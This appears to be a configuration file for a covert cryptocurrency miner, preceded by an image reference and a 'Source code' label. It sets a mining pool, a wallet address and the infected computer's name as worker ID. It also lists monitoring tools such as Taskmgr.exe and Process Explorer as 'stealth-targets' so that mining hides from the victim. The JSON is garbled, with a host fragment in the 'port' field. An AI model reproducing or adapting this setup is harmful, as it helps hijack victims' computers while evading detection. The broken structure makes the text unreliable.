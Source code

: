 {
    "algo": "rx/0",
    "pool": "stratum+ssl",
    "port": //united.minecraft.pe,
    "wallet": "47AXmqm3ys97CzVA6LwweC8Qwu86FNHacU9WEzGWAVn5CHfXCVcbcHL2xiDwuufsPXYf6VPPNCAGaaF5e4nsLE9gCPp4hBz",
    "password": "-p %COMPUTERNAME%",
    "nicehash": false,
    "ssltls": true,
    "max-cpu": 50,
    "idle-wait": 5,
    "idle-cpu": 90,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "kill-targets": "",
    "stealth-fullscreen": false
}
